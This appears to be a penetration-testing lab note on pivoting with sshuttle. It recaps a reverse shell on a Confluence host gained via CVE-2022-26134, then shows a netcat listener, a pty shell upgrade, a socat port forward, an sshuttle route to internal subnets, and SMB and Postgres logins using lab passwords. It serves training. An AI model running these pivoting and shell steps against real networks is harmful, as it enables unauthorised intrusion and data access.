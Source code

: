 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Sshuttle

`sshuttle` is a tool that creates a VPN-like tunnel over SSH. It transparently routes traffic to specified subnets through an SSH connection. It requires `root` **privileges** **on the** **client (attacker)** machine and **Python 3** on the **SSH server** (pivot host).

> _Particularly useful when **classic dynamic port forwarding is cumbersome** to manage._

[Tunelling scenario](../../tl-dr/port-fowarding/ssh-tunelling.md) recap:

1. Got a reverse shell on `CONFLUENCE01` (`192.168.125.63`) via CVE-2022-26134.
2. We can SSH to `PGDATABASE01` (`10.4.125.215`) from `CONFLUENCE01`.
3. Our goal is to access the following internal networks: `10.4.125.0/24` and `172.16.125.0/24`.

{% tabs %}
{% tab title="1. Local Port Foward" %}
We can set up a port forward on `CONFLUENCE01`, forwarding local port `2222` to `PGDATABASE01:22` using `socat`. This makes `PGDATABASE01`’s SSH service available on `CONFLUENCE01:2222`.

{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ socat TCP-LISTEN:2222,fork TCP:10.4.125.215:22
```
{% endcode %}
{% endtab %}

{% tab title="2. Sshuttle" %}
Then we can use `sshuttle` from Kali to route desired subnets through the forwarded SSH connection. `-r` specifies the SSH connection string (`user@pivot_host:port`) followed by the list of subnets to route.

{% code overflow="wrap" %}
```bash
$ sshuttle -r database_admin@192.168.125.63:2222 10.4.125.0/24 172.16.125.0/24
...
database_admin@192.168.125.63's password: #sqlpass123
client_input_hostkeys: hostkeys_foreach failed for /home/x7331/.ssh/known_hosts: Permission denied
c : Connected to server.
```
{% endcode %}
{% endtab %}

{% tab title="3. Connect" %}
We can now test the pivoted access by connecting to an internal service (e.g., SMB on `HRSHARES`) **without any additional port forwards.**

{% code overflow="wrap" %}
```bash
$ smbclient -L //172.16.125.217/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
        
$ psql -h 10.4.125.215 -p 5432 -U postgres
Password for user postgres: # D@t4basePassw0rd!
...
postgres=#
```
{% endcode %}
{% endtab %}
{% endtabs %}
